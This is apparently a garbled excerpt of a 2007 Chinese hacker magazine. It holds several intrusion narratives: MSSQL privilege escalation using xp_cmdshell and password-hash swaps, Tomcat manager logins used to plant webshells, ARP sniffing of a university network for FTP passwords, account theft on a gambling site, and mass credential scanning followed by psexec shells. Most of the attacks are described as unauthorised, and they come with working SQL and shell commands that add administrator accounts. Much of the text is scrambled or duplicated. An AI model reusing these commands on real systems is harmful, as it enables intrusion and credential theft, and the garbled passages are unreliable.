insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=netpatch;Network=DBMSSOCN;Address=111.111.111.80;','select * from dest_table') select * from src_table;
```

图 1

## 二、获取系统权限

郁 80。没一会，就有机器递过来了，一看 IP，正是目标机器，如图 1 所示。

获取 WEBSHELL，首先我们得需要路径，如何去获取路径呢？由于许多存储扩展已经不能使用，我们这次去执行命令、列目录、查看注册表等动作。于是，我直接用过的 IDEA 就是，读取 MetaBase.bin 文件！有经验的朋友都知道，此文件乃 IIS 5.0 的内核配置文档。可怎么读取呢？进入语句如下：

```sql
drop table [nspcn]
CREATE TABLE [nspcn]\[...]
BULK INSERT [nspcn] FROM 'f:\boot.ini' WITH (KEEPNULLS)
insert into [nspcn] values ('0-over') Alter Table [nspcn] add id int NOT NULL IDENTITY(1,1)
select * from [nspcn]
```

上面的代码利用 BULK 来读取 boot.ini 文件，本地测试成功读取，图 2 是本地测试时的抓图。


于是我真正读到 MetaBase.bin 文件，但是当时测试的时候失败了。读取的内容为空。下图是本地测试的抓图（由于虚拟机只有 2K3 有装 MSSQL，我从 2K 上 COPY 了个 MetaBase.bin）如图 3 所示，看样子 MetaBase.bin 里边有一些截断字符导致读取失败。


于是我又想到了 xp_makecab、xp_unpackcab 两个扩展存储，于是用了如下语句：

```sql
exec master..xp_makecab 'C:\WINNT\Help\iisHelp\common\404b.cab','msz' ,1,'D:\WINNT\Help\iisHelp\common\404b.htm'
--// 备份 404b.htm 页面
exec master..xp_unpackcab 'C:\WINNT\Help\iisHelp\common\404b.htm','msz',1,'D:\WINNT\system32\inetsrv\MetaBase.bin'
--// 结果肯定失败了。
```

没办法，只能另图他法了。根据反馈结果表示可以连上，如图 4 所示。于是我用如下语句加了 SYSADMIN 权限的用户：


```sql
exec master..sp_addlogin nspcn, npathpach
exec master..sp_addsrvrolemember nspcn, sysadmin
--// 后来才发现该语句有错，第二句运行不通呢！
--// 正确的应该是 exec master..dbo.sp_addsrvrolemember nspcn, sysadmin
```

用查询分析器连接上去，发现只是个 PUBLIC 权限，晕死我了。当时也懒得怄了，不知道哪里错了。用 NBSI 也没加上。于是想到了一种疯狂的点子，修改 SA 密码。如何修改呢？如果我们直接用 exec master..dbo.sp_password null,nspcn,netpatch-- 修改，虽然有办法修改，但万一恢复不了才麻烦，我们又不知道原密码，没办法将密码修改回去。那么我们究竟该怎么巧妙的方式进行呢？

于是想到了，先复制 SA 的 HASH 到 A 用户，然后再把 E 用户的 HASH 复制给 SA，当然我们知道这个只知道 SA 默认的 HASH 值而已。这样我们就可以知道，修改了 A 用户的密码。这样我们就可以知道，这个案例中我们当然会遇到登陆上的东西，修改密码出于也把 A 用户的 HASH 复制给 SA 就可以了。

我们先设想下修改过后的情况，如果密码修改成功，那么网站立即就能登陆。如果不是很好的时间内修改，那么我们的行动将会暴露，结合上面的“一万次不如打保守”我们决定了如下计划，准备好恢复 sp_addextendedproc 存储扩展的 SQL 语句，以及成功恢复后需要恢复存储扩展以及要执行的命令，当然最后一条是把 SA 密码修改回来。相关 SQL 如下：

```sql
Use master
create procedure sp_addextendedproc ------ 1996/08/30,20:13
@funcname nvarchar(517), /* 新 name / name of function to call */
@dllname nvarchar(255) /* name of DLL containing function */
as
set implicit_transactions off
if @trancount > 0
begin
raiserror(15002,-1,-1,'sp_addextendedproc')
return(1)
end
drop procedure sp_addextendedproc
return (0) -- sp_addextendedproc
...
EXEC sp_addextendedproc ...
EXEC sp_addextendedproc 'xp_cmdshell', @dllname='xplog70.dll'
EXEC sp_addextendedproc 'xp_regwrite', @dllname='xpstar.dll'
EXEC sp_addextendedproc 'xp_regread', @dllname='xpstar.dll'
```

```sql
exec master..dbo.sp_cmdshell 'net user nspcn npathpach /add&&net localgroup administrators nspcn /add' --
DECLARE @shell INT EXEC sp_create @shell, @shell_output
EXEC sp_cmdshell 'net localgroup administrators nspcn /add'
exec master..dbo.sp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon','DefaultUserName',...
```

但是，在默认情况下 master..sysxlogins 是不会允许修改

但是，在默认情况下 master..sysxlogins 是不会允许修改

## 【西线无战事】

的。我们需要开启这个权限。

执行 `exec master.dbo.sp_configure 'allow updates', 1; RECONFIGURE WITH OVERRIDE;` 后，我们成功开启了修改权限。于是建立了 2 个用户和 1 个密码为 `netpatch`。

先用 `update sysxlogins set password=(select top 1 password from sysxlogins where name='sa') where name='a'` 把 SA 的 HASH 复制过去。然后再用 `update sysxlogins set password=(select top 1 password from sysxlogins where name='b') where name='sa'` 把 sa 密码修改为 netpatch，修改后立即可查询分析器登录到网页的 sqlserver 执行已经准备好的命令，但当命令执行完毕时，发现一个很严重的问题，就是 `odsole70.dll, xplog70.dll, xpstar.dll` 三个 DLL 已被删除，无法恢复我们需要的存储扩展了，如图 5、图 6。

再次陷入困境。

在百般无奈的情况下，只能用一个办法试试的点子——清 WEB 目录路径，利用……


用添加的用户成功登录了 3389，如图 8。

## 三、经验总结

虽然进去了，但这也是侥幸碰到 web 目录的物理路径走进去的，并不是完全拿到了进去的心肉有系服／心脏，要是现在不解决这个问题，以后碰到类似的，脚本就更糟了。于是再研究各个存储扩展的语法，研究后才发现了自己前面犯的几个严重错误，导致自己一大团郁结。

1. 本可以利用 xp_makecab、xp_unpackcab 配合 404 页面，获取路径，下面是相关的 SQL 语句。

```sql
Exec master..xp_makecab 'c:\WINNT\Help\iishelp\common\404b.cab', 'msi', 1, 'c:\WINNT\Help\iishelp\common\404b.htm'
Exec master..xp_makecab 'c:\WINNT\Help\iishelp\common\metabase.cab', 'msi', 1, 'c:\WINNT\Help\iishelp\common\metabase.bin'
```

— 备份 metabase.bin 文件到 `c:\WINNT\Help\iishelp\common\` 目录

```sql
exec master..xp_unpackcab 'c:\WINNT\Help\iishelp\common\metabase.cab', 'c:\WINNT\Help\iishelp\common\', '1', '404.htm'
```

— 从 metabase.bin 里面把 `c:\WINNT\Help\iishelp\common\metabase.cab` 中解压出来，并重命名为 404b。

然后我们访问该站不存在的文件名，就可以利用 404b 文件将我们列出内容了。

2. 就是加 SYSADMIN 权限的 SQL 用户时搞了个遗漏，导致添加账号失败，上文有提到正确语句才可以。
3. 用了单步法来修改 SA 密码，其实完全可以用 `exec master.dbo.sp_configure 'allow updates',1;RECONFIGURE WITH OVERRIDE;update sysxlogins set xstatus=18 where name='nspcn'`——来提升普通 SQL 用户 nspcn 权限（此语句为加一个 sa 用户是相的关系）。

虽然绕了个大圈子，但也长了不少经验……！自中间的过程，让自己更加明确如何应付相类似的状况。嗯嗯，不如小勇的了那么多，总答有什么新的收获呢？欢迎到“黑手”官方论坛或 www.nspcn.org 与我交流探讨。

编辑点评：

这是一篇不错的文章，有人从这个过程的努力和终究以及有序的白纸上、文件中的 SQL 语句在一些环节陷入了过多的文字说明和过程，对于初学者来说是一个较完整的思路。


上文提到装 boot.ini 文件的方法，尝试读取网站的主页，后面还是 RP 好，靠了 4 次后被我猜到了 WEB 目录。D:\ 网站名\index.asp。当文件内容被读取出来时，那个心啊，于是立即用差异备份取下了 WEBSHELL，如图 7。

从 WEBSHELL 中找到了数据库连接文件，获得了 SA 的密码。然后再从 WEBSHELL 上传了一个自己的存储扩展，用海绵 ASP 木马的数据库管理功能，连接数据库后，用如下语句添加了一个自己的存储扩展 xp_nspcn！

```sql
use master
exec sp_addextendedproc 'xp_nspcn', 'xp_nspcn.dll'
grant exec
on xp_npsed
to public
```


再用自己的存储扩展执行如下语句，Exec master.dbo.xp_nspcn 'net user nspcn netpatch /add && net localgroup administrators nspcn /add'，再……

# 维在中的闪光——对黑帽任务的测试

从文本中重点你应当学到

作者的一种入侵思路，而不是他的办法

## 一、起因

## 【西线无战事】< 2007.11 > 非安全·第五手册

被检测单位的同意后，就跟着 svi 开始了渗透。该场的主站是一个 jsp+oracle 的网站，我们在渗透的过程中遇到了各种各样的情况，这里也做出来与大家探讨。因为是在暑假的时候做的项目，所以里面的图片一部分是安全评估报告时截的，一部分是现在才截的。

## 二、基本信息的收集

在早上的时候就得到了公司通知，说是我们提前开始渗透的申请被批准下来了。我和 svi 很兴奋的跑到了学校的工作室去开始工作了。因为被检测的机器现在工作时间，所以只能先收集关于网站的基本信息，其实这些信息也都是很有用的。先从 google 上搜索，发现页面就是网站首页直接的几个文件，很多脏就能对几的网站的安全做过搜索优化的，网站后台也找不到，也没有注入的地方，更别说上传之类了。那就只有从 Tomcat 本身的一些特性来想这个办法了。

## 三、从源码入手

在 jsp 的网站中一般都有 WEB-INF/web.xml 文件对 jsp 中的 servlet 或者数据库连接等进行配置，如果能从 WEB-INF/web.xml 文件里面读出 servlet 文件的路径，我们就可以尝试下载这些文件。尝试访问 http://www.xxx.com/WEB-INF/web.xml, 虽然能访问到，但是并没有返回配置信息。看来只好再次从代码入手。这个时候在学校一直接到 2ee 项目的 svi 教给我一个 url 编码 http://www.xxx.com/aimport/src/com/iss/system/dao，这不是传说中的源码路径嘛？如图 1，原来 src 是 SOURCE FOLDER，即放源代码的，与 WEBROOT 的区别是 webroot 目录是 *.jsp 文件的，而 src 是放 *.java、*.properties 等文件的。再次从页面看 tomcat 的版本是 4.1.18，一个一个目录的浏览，在 /src/com/iss/system/dao/ 找到了链接 oracle 数据库的 ConnectionDB.java 文件，在文件里面看出了源文件：


```java
private static Connection conn = null;
private static Statement stmt = null;
private static ResultSet rs = null;
private static String usr = "airport";
private static String password = "xxxxxx";
public Connection getConnection1() throws Exception {
    try {
        Class.forName("oracle.jdbc.driver.OracleDriver").newInstance();
        String url = "jdbc:oracle:thin:@192.168.20.52:1521:airport";
        conn = DriverManager.getConnection(url, user, password);
        return conn;
    }
    catch (Exception e) {
        e.printStackTrace();
        throw e;
    }
}
```

从代码上看，数据库所在的服务器处于内网，又读了其他的文件，文件里面基本上是空壳的一些类，还是没有多少敏感的东西，看来源码的攻击的方法是不行了。

## 四、进入 tomcat 管理页面

在 tomcat 中自带了一个管理程序，能够上传文件和添加 context，我想是这样 http://www.xxxx.com/admin/, 果然管理员没有删掉或者禁用这个管理程序。Tomcat 的默认用户名是 admin，密码为空，输入默认密码就能进去。这个时候 svi 提醒我用社会工程学，不是刚刚看见了数据库连接的密码，把数据库连接的密码输入后，成功登录了管理页面，进入 tomcat 的管理程序，点击 tomcat server，再点击 service[tomcat-standalone],在 host(localhost) 里面我们可以添加 context 增加 context 设置虚拟目录，在 Document Base 里面填写 c:\ 在 path 里面填写 test，也就是新建虚拟目录为 test，路径是 a.com 如图 2，这样的话，我们也可以通过浏览到测试机 http://www.xxxx.com/test/，相关于我们通过浏览器访问到文件本身了，如图 3。

先看看 C:\Program Files 里面有没有 tomcat 的安装目录，我个人比较偏向于脚本，如果能找到 tomcat 的 webroot 目录的话，就可以以此作为切入点，代码中发现问题，很惊奇的发现安装了 pcanywhere 服务端，可以直接看 c:\documents and Settings\All Users\Application Data\Symantec\pcAnywhere\，由于 tomcat 不能断改 sql 的后缀，即由 ie 图片的模板直接的样式，放到服务器后缀名是可以后续的，当然现在还不能够通过访问它，但是连接服务器就可以了。提示我的 ip 不能连接。看来 pcanywhere 放了登录的 ip 限制。


## 五、再次从 web 程序入手

访问了整个 C 盘都没有找到 tomcat 所在的安装目录，难道是 tomcat 安装在其他的盘？又在 tomcat 的 admin 管理程序里面添加了各路径的 J（别名）去寻找，F、H 盘都能访问，而且都提示路径上有权限问题？于是断定是绝对路径访问失败。

把 web 目录放到另一个盘上，能够在 webroot 里面访问 tomcat，程序也能正常运行，并且通过 jsp 木马拿到 webshell，最后发现其敏感目录所在的位置可能存在漏洞。

打开下载的代码，得到用户名和密码后，只判断了对用户名的 md5 加密成功与否，并没有验证密码。直接提交：http://www.xxx.com/airport/back/login.jsp?UserName=admin，进入后台。

从下载的代码分析，取得用户名和密码后，只判断了对用户名的 md5 加密成功与否，并没有验证密码。

```
UserName = request.getParameter("UserName");
// 取得用户名
MD5UseName = request.getParameter("MD5UserName");
// 取得密码
if("null"==UserName||""==UserName.length()) {
  // 如果用户名不为空
  MD5 _MD5 = new MD5();
  String _MD5UserNameCMS="MD5.getMd5Str(_UserName);";
  // 对用户名做md5加密
  if(_MD5UserName.equals(_MD5NameCMS)) {
    System.out.println("MD5 验证失败！");
    out.write("<script>"+
    out.write("没有权限进入！");
  }
}
```

```
window.close();
out.write("</script>");
...
// 如果 MD5 验证通过，进行数据库用户验证
else {
  UserLoginModule um = new UserLoginModule();
  if(um.isUserExists(_UserName,"1")){
    System.out.println("数据库验证失败！");
    out.write("</script>");
    out.write("alert('密码没有权限进入！')");
  }
  else {
    System.out.println("用户名密码正确");
    response.sendRedirect("http://www.xxx.com/airport/back/login.jsp?UserName="+_UserName);
  }
}
```


## 六、总结

从 jsp 缓存里面去读要渗透站点的代码的想法真是有点不可思议。

# 对母校的一次安全检测

从本文中你可以学到：

- tomcat 获取 webshell 的方法
- 常规提权的手法

## 一、初步分析

一次在母校的官方网站上闲逛，发现学校正在建设数字化校园，于是想对母校进行一次友情检测。看完它的安全性到底如何？打开学校官方网站，随手在有个参数的网页地址后面加一个单引号：http://www.xxxxx.org/newsite/news/news/xynews.asp?id=2034；出现如下提示，如图1所示。

这个是极护时注入系统，这个页面为注入程序表，返回则为62格式，也许是报错型程序，见图2。

看来被这个网站过滤，管理员的安全意识还不错，看了半天也没有发现注入，网上又没有论坛和留言板，看来还挺难搞的。

## 二、Arp 嗅探

ping 了一下网址得到 IP，在 http://whois.webhosting.info 上对网站所在的网段进行了细致的查询，发现一个打开网站进行查看，发现一个网站是用 JSP 做的，web 服务器是 Tomcat Server，由于 Apache Tomcat 是以服务启动的，并且好像管理员对 tomcat 的配置并不熟悉，导致安全漏洞。一旦入侵成功，上传 jspshell 便可得到管理员权限。随便看了看，管理员果然没有配置好服务，出现了通用目录，如图3。

在网站的根目录下加上 /manager/html，出现了 tomcat 的管理界面，如图4，用默认用户名 admin 和默认密码为试试，登录成功，如图5。


网上关于 tomcat 后台拿 webshell 的文章很多，我就多说一下，在 manager/html 目录下，可以直接上传一个 war 文件（用于远程管理 tomcat 服务器的脚本文件），来自动建立虚拟目录，我在附件中提供了一个 job.rar，下载之后用 winrar 打开，里面的 job.jsp 是一个 jsp 马，你可以修改名称成为自己的，上传之前将 job.rar 修改后缀名为 job.war，然后上传，上传之后访问 http://ip/job/job.jsp，得到的 jspshell 如图6所示。

登录后执行 cmd 命令添加管理员 y1 成功，如图7和图8。

思议，svi 的演练和把握每个细节，让我明白，后来因为大的课程太多了，没有能去见见真正安全公司做的安全评估其实是有点遗憾。不过，现在的放松中的思考到了一个方法先走是高效的。其实透过这些在不断的尝试各种样本的情形中找到自己一个步步往前的测试方法，在渗透的过程中也是在不断的收集各种看似不重要的信息（比如这个 JSP 程序目录），但是这些信息就是对你很有帮助的。

> 编辑点评：
我认为作者能够最后入侵成功，关键的一步是看懂了 login_jsp.java 源码，然后构造命令进入了后台。还是那句话，想做一个好的黑客，金牌是怎么来的。

## 中国安全黑客手册 2007.11 →【西线无战事】

na 查看端口，并逐一试验，发现 5666 是终端端口，用添加的用户登录成功，如图9。`mrtcat命令`一下，发现可以进行 arp 欺骗，如图10。


通过进一步发现，内网、学校的官方网站和学校的新闻网在一个网段，手足是在内网中安装 cain4.9 对官方网站和学校的新闻网进行嗅探，由于学校网站的访问量非常大，过不了多久 cain 就自动退出，每隔一两个小时我都得重新启动 cain，接下来的方法是发现了 zxrps.exe 这个工具，以前杂志上也介绍过，就不多说了，运行非常稳定，一个星期也不会退出，执行如下命令：

```
zxrps.exe -idx 0 -ip 125.xxx.xxx.xxx-125.xxx.xxx.xxx -port 21 -spoofmode 3 -logfilter "_USER,_PASS" -save a sniff.log
```

大约过了 4 天左右终于拿到了学校新闻网的 ftp 密码，如图11。

ftp 上传漏洞，一句话木马，发现开启了终端服务，端口为 11110，再上传 su.asp 添加管理员，serv-u 默认管理员密码没有改，添加管理员成功，由于 serv-u 版本不高，没有添加语句，可以通过退出获得系统权限。在内网上成功登录终端，如图12。


## 三、入侵主站

在新闻网的硬盘上翻了翻，发现安装了 Radmin，用 net start 命令查了一下，发现 Radmin 正在运行，在注册表中找到端口的键值，是 16 进制的，不是用 10 进制的《黑客手册》提供的 vbs 代码还原出端口，用 netstat 命令查看了一下，发现开了 11111 端口，和终端端口接近，试了试，发现正是 radmin 开的端口。由于官方网站和新闻网的 IP 相隔不远，并且都是我们学校的子网，想想可能是一个管理员，telnet 官方网站一下，发现官方网站也开了 11110 和 11111 两个端口，并且 11110 是终端端口，用 radmin 连接 11111 端口，弹出了请输入密码的提示，看来多半是一个管理员。

把注册表中 radmin 的密码放在 www.cmd5.com 上破解，没有破解出来，哈哈，那就试试最近非常流行的 radmin 超级漏洞，正在为 pollydbg 调试 radmin 发现，网上正好出现了 radmin_hash 反，直接输入 md5 数列就可以了，连接官方网站，成功了！如图13、14。

于是想加个管理员登录官方网站的终端，哈哈，如图15。

## 四、入侵中遇到的问题

这次入侵实际上要复杂得多，我用 ping 出来的主站的 IP 在 http://whois.webhosting.info 上查询，没有官方网站，也在问网段的一个 IP 上查到了，radmin 也连接成功了，在里面看了一看，发现官方网站也在这里有个备份，而且网站好像地址的路径名称一样，后来才知道有论坛管理员设计了很方便的链接维护性，准备了两个 IP，一个出现问题，就直接转到另一个上面。


www.1***8.com，告诉我这是一个赌博网，里面有一个六合彩网：www.1***8.com/xinwen/，让我帮我拿个账号，我本来就没想无中生有，网上也对此类网站作过检测，于是答应帮他看看一看。

## 二、初步分析

打开这两个网址，好家伙，会员价格还真高，单场380元，白金会员包月102000，可真够黑啊，提供的资料有这么神吗，值这么多钱吗？进一步提出了我的兴趣，先不管这些钱，我们来进行网站安全的初步分析。六合彩网站是

为了即使得到其中一个站的 webshell 就相当于一走到了（图1，图2），赌球网保存了好多服务器信息，虽然网站都补上了，但是网站还是被看好但是说又被人注入漏洞，其中的“是论坛”或“此处”为 bash 板块是用的动网 8.0 论坛系统，默认数据库也没改，所以很多会员不，但要是大家安全也非常担心，所以偶尔就不知道了。六合彩论坛著丁将格很像是用一个什么新系统，就是由于我见不到对方的 cms，所以也不敢说出一些是想白系统。经过以上分析，我感觉这还是六合彩论坛它更适合额人手些，所以确定第一目标为六合彩论坛。

## 三、抓住细节巧获 webshell

细看六合彩论坛，基本页面是生成的 html，只有栏目跳转页面才动态的 asp 页面，经过检测它不存在什么注入漏洞，用明小于工具也没检测到什么上传的地址。未知系统，又没有一般的漏洞，真是很难搞啊。难道又要使用旁路吗？先不忙，我就先相信分析不出来用的什么系统。

我们先找到管理员后台入口，不过不定会有所发现（以前也曾经有到过一些网站首页或程序集名称，去攻击了或者捉后的，入口不过是很容易发现程序名称的），于是很快找到管理入口 http://www.1***8.com/xinwen/Admin_Login.asp，如图3。

这个心真不禁黑（平时称黑的不多呀，以下是参考力，不过滤火眼金睛，我发现了一处比较特别的地方，就是在登录框右上角的一块小图片，于是手尝试查看图片属性，如图4所示。

知道了图片的文件名 ceadmin.gif，感觉也比较特殊，这应该可以查出它是什么系统吧。知道有些？大家知道 seeknot.com 网站，这里可以通过付费文件名查询到源码名称与文件清单的，我本来也打算用它的，但我这儿再向大家介绍另外一种：直接在百度里进行搜索，关键词就是“img/ceadmin.gif”，结果如图5所示。

我们找到了两个网站，随便点选择一个，得到了详细的文件目录，如图6。

为什么会出现这种情况，其实是因为服务器 IIS 设置的问题，管理员将“目录浏览”打开了。看先我们的目标站有漏洞，现在基本就是自相修改操作了。不过，我们还是先来验证一下，该站是不是竟是使用了同一套程序，打开登录入口，如图7，果然就和我说的就差不多。

下面，我们通过对源文件清单来对我们的六合彩论坛进行入侵检测。先看数据库在哪儿，您查找为 data/News_Data.asp，如图8。


# 拒绝空洞黑客手册 2007.11 →【西线无战事】

耳熟也不足，继续通过目录清单查找，终于让我在 uploadfile 目录下发现了 eWebEditor 编辑器的踪影，如图9。

现在一切是如此简单啊，webeditor 也 webshell 的方法大家都会的吧，不用我再多多说了吧。使用默认账号和密码：admin 和 admin 登录居然提示错误，如图10。

于是，我们直接找 webeditor 的数据库 http://www.1***8.com/xinwen/uploadfile/db/ewwebeditor.mdb 下载下来，然后找到 eWebEditor System 表，就找到账号与密码了，在线破解得到账号和密码：admin 和 aroinglove，用其登录，成功进入（图11、12、13）。


然后的活儿大家都猜会（什么？你还不会，去翻以前的杂志吧），轻松得到 webshell，并跳转到网站根目录，如图14。

我们现在已经将这两个站的 webshell 拿到手了，去找个账号就很简单了。

## 四、获得会员账号与密码

直接用 webshell 查看数据库连接文件 conn.asp，得知数据库文件为 /data/2005.asp，用 webshell 的数据库操作器连接 d:\wwwroot\data\2005.asp，查询 users 表，取得了网站的会员账号了，如图15。

任意选择一个进行登录，如果发现是审核使用的，也就看不到什么会员资料了，这样的账号只有可用了，如图16、17。

再次试了其它几个账号发现都是带审核用户，看来我们要继续搞清楚是如何判断会员分类的，也就是说有正式的会员与待审核会员在数据库里有什么区别。打开其中一条记录，看到有 userpower 这个字段，从名字就能想到是用户等级的，目前值为 0，我们将其修改为 1，然后点击“修改”按钮，这样就把该条记录的 userpower 置为 1 了，如图18。


我们再重新登录一下，这回提示“您已经登录会员区，在这里您便快就能实现您的梦想——百万富翁”，哈哈，是吗，说得真好听！现在我们已经是正式会员了，如图19、20。

## 【西线无战事】— 2007.11：驻守宝岛黑客手册


普通会员？难道还有其它的级别？对了，最初我们看到不是有 380 元到 102000 元不等的交费吗，肯定还有更高级别的会员的。我们来找一下用来判断会员登录的文件，看看源

现在猜到了，userpower 值为 1 时就是普通会员，为 2 时是高级会员，为 3 时是 VIP 会员。分别修改了进行验证，如图21。


验证成功，现在想要什么级别的会员都可以了。用别人的或者自己新添都可以的，为了不引起管理员注意我用了一个现有的会员账号给了好友，等级提升一下，相信账号原持有人也不会修复与管理员去说吧，呵呵。

## 五、总结

总结整个过程，没有什么新的技术可言，只是在一个不起眼的图片上找到了线索，进而达成了我们的目标。如果本文是启发人的细节快完成成，我想作为网络安全爱好者，如果你善于抓住细微末节，一定会有更多更新的发现的。当然不仅仅技术如此，生活、做人亦如此，你说呢？

> 编辑点评：

我来说的话，作者在总结里都说过了，哈哈。人似乎始终处在不断学习中，或许真的是个不容易的地方。说服了什么？说明人的方法和人生的考验在这里。

## 地厂作 攻击案列

编辑说明：Simeon投了几篇稿子，我一直是几个老也很简单的工具说明，而且一个工具里的一项功能也能写一篇长文，我真是服了他。于是这样做了。文章也是有我最为擅长的内容题目来写，文章里也有一些自己的思想，明显比起前几篇文章的文章有些文章味道了，系统人使用的文章释放了《协》中人们的各种来投票的方式，而且系统人文论文章写文章之中，他们文章自己上传的文章？此文章还有一种属于下载的文章。毕竟可怕的地方就是内容和人相互之间的联系？

文章一：我用 FTP 进行内部穿透监控内容

在 SQL 企业入驻网络控制中心内部的控制下，可以先暂且放过它的沙工具 Hscan 来进行各种口令的扫描，利用本文的思路，只要你愿意，内网还是会成群结队的。关键是执行了本文的“黑客王子”的前文，所包裹的专家，下载原程序编写者的程序，对其熟悉可编写不同，我在想的是通过 Hscan 这样的扫描器，真正对一个选择器的工具扫描，能不能解决这个方法？其实在网络攻防中，我还是老鸟，只是对工具是的

较熟悉，哪些该改“高手”，手握重要武器（0day）是不会教你的，真正的高手是自己修炼的，偶尔灵光一现，或东西都能利用了，哈哈。所以，阅读以求，说出不实说说吧！

上次的文章中利用 ftp 口令，通过提供 Web 服务的 Ftp 主机上传 Webshell 来成功控制内网，本文的主要思路是利用 HScan 的扫描器，从 UltraEdit 编辑器的程序的目录，得到一串非匿名用户口令，然后再利用这些 IP 地址进行 3389 端口的利用，而后又成功对了用户名和口令，用户名和口令进行对 3389 端口的检测。详细步骤如下。

（2）查找已经破解的账号。在使用 UltraEdit 打开 Hscan.log 文件后，在菜单中单击“搜索”→“查找”，在查找中输入“@ftpscan#Cracked account:”，并选中“列出包含字符串的行”，如图 2 所示，然后单击“下一个”按钮。


（3）复制查找结果。如果在 Hscan.log 中有“@ftpscan#Cracked account:”项，UltraEdit 会自动列出所有包含该字符串的行，如图 3 所示，单击“剪贴板”将所有查找结果复制到剪贴板上。


（4）整理查找结果。在 UltraEdit 中新建一个空白文件，然后将剪贴板上的内容粘贴到新文件中，如图 4 所示，从 UltraEdit 编辑器中复制一共有 882 条（行）记录，每一条记录对应一个账号。


（5）对扫描结果进行处理。选中“@ftpscan# Cracked account:”然后在 UltraEdit 编辑器中选择“搜索”→“替换”命令，打开“替换”窗口，在查找中输入“@ftpscan#Cracked account:”，替换为中输入四个空格，如图 5 所示，然后单击“全部替换”，替换所有“@ftpscan#Cracked account:”字符串。替换完成以后，其结果如图 6 所示，每一条记录中最前面是 IP 地址，后面依次为账号和口令，保存结果为 210.good.log 文件。


（6）扫描3389端口。新建一个文件并将其保存为 210.3389.txt，然后选中并复制 210.good.log 文件中的所有内容到新建文件 210.3389.txt 中，然后只选中 IP 地址，将其余内容全部删除，并在每一个 IP 地址前面输入“3389”，输入完毕后，其结果如图 7 所示。

接着选中所有内容，将其复制到 Dos 命令提示符窗口执行，如图 8 所示。

> 说明：在执行 sfind 命令时，要确保 sfind 命令能够执行。可以将 sfind.exe 文件复制到系统目录 system32 中，或者直接通过 cd 命令，到 sfind.exe 所在目录。

> 技巧：使用“type sfind.txt | find “3389 listening” >3389.txt”命令，将扫描结果文件 sfind.txt 中的所有开放3389端口记录生成到 3389.txt 文件中，如图 9 所示。

（7）查找口令并进行3389登录。依次选中 3389.txt 文件中的 IP 地址，然后在 210.good.log 中通过查找命令查找相应的记录，在本案例中找到 IP 地址 210.*.*.90 的记录，其用户名和口令分别为“test”和“123456”，如图 10 所示。打开远程终端链接程序 mstsc.exe，输入 IP 地址、用户名以及密码，然后进行连接。速度很快，连接成功，顺利进入对方计算机，如图 11 所示。


（8）再次验证思路。在本案例中，为了再次验证我们的思路，随机选中了 210.*.*.16 这个 IP 地址，在 210.good.log 文件中查找该 IP 地址记录，其中用户名和口令分别为“Administrator”、“admin”，如图 12 所示。在远程终端中输入 IP 地址、用户名和口令，依然连接成功，如图 13 所示。

小结：本案例主要利用的思路是系统用户口令跟 Ftp 用户口令相同，而 3389 远程终端服务又知道 IP 地址以及组

## 文章二、Windows 口令扫描攻击实例

Windows 口令扫描攻击主要针对某一个 IP 地址或者某一个网络进行口令扫描，实际是通过 139、445 等端口来尝试建立连接，利用的是 Dos 命令 `net use \\ipaddress\admin$ "password" /u:user`，只是通过程序来实现而已。下面的案例通过扫描软件 NTscan 来扫描口令并成功实施控制。

设置 NTScan。直接运行 NTscan，在 NTscan 中一般只需要设置开始 IP 和结束 IP 两个地方，其它设置均可以采取默认，如图 14 所示。

说明

① 如果是在内网且面积细管理扫描，由于语言版本的不同，如果操作系统不支持中文显示，就有可能显示为乱码，这个时候也只需要先将系统终端进行设置，本例中是在英文操作系统中使用 NTscan，在其运行界面中一些汉字显示为“?”，但是不影响扫描使用，如图 15 所示。

② 在 NTscan 中有 IPC、SMB 和 WMI 三种扫描方式，第一种和第三种方式扫描口令较为有效，第二种主要用来扫描共享文件。利用 IPC$ 可以与目标主机建立一个空的连接而无需用户名与密码，而且还可以得到目标主机上的用户列表。SMB（服务器信息块）协议是一种 IBM 协议，用于在计算机间共享文件、打印机、串口等。SMB 协议可以用在因特网的 TCP/IP 协议之上，也可以用在因特网以外，如 IPX 和 NetBEUI 之上。

③ WMI（Windows 管理规范）是一项核心的 Windows 管理技术，WMI 作为一种规范基础结构，规定可以访问、配置、管理和监视几乎所有的 Windows 资源；此时可以通过远程计算机上启动一个进程；设定一个指定的日期和时间运行的进程；远程启动计算机；获取本地或远程计算机的已安装程序列表；查询本地或远程计算机的 Windows 事件日志等。一般情况下，在本地计算机上执行的 WMI 你也可以在远程计算机上执行，只要用户拥有该计算机的管理员权限。如果用户对远程计算机有权限并且远程计算机支持 WMI，那么用户就可以连接到该远程计算机并执行拥有相应权限的操作。

执行扫描。在 NTscan 运行界面中单击“开始”按钮或者单击左窗口下下面的第一步（如果是显示为乱码），开始扫描，如图 16 所示。

说明

① NTscan 扫描口令程序与工具相关，其原理就是使用字典中的口令跟实际口令进行对比，如果相同即可建立连接，即破解成功，破解成功后会在下方显示。

② NTscan 的字典文件为 NT_pass.dic，用户文件为 NT_user.dic，可以根据实际情况对字典文件和用户文件内容进行修改。

③ NTscan 扫描结束后，会在 NTscan 程序当前目录下生成一个 NTscan.txt 文件，该文件记录扫描结果，如图 17 所示。

④ NTscan 中还有一些辅助功能，例如右键单击后可以执行“cmd”命令，左键单击后可以执行“连接”、打开远程资源以及“映射网络驱动器”等命令，如图 18 所示。

实施控制。在 Dos 命令提示符下输入 `net use \\221.*.*.*\admin$ mrs6100 /u:administrator` 命令获取主机的管理员权限，命令执行成功，如图 19 所示。

执行 `Psexec.exe` 命令，输入 `psexec \\221.*.*.* cmd` 命令获取一个 DosShell，如图 20 所示。

说明

① 以上两步可以合并，直接在 Dos 命令提示符下输入 `psexec \\ipaddress /u:administrator -password cmd`，例如在上例中可以输入 `psexec \\221.*.*.* -u Administrator -p mrs6100 cmd` 命令来获取一个 Dos 下的 Shell。

② 在有些情况下也可使用 `psexec \\ipaddress /u:administrator -password cmd` 命令不能正常执行。

从远端查看被入侵计算机端口开放情况，使用 “sfind” 命令，输入 `p 221.*.*.* *` 命令查看远程主机已开放情况，该主机仅开放了 4899 端口，如图 21 所示。

上传文件。在该 DosShell 下执行文件下载命令，将一些工具软件或者木马软件上传到被攻击计算机上面，如图 22 所示。

说明

① 可以使用以下 vbs 脚本命令来上传文件。

```text
vbscript
echo ^wscript.^ arguments \
count^2 ' then quit end if > s] vb
' echo set obj = createobject("adodb
```

## 第三章：SQL Server 2000口令扫描案例

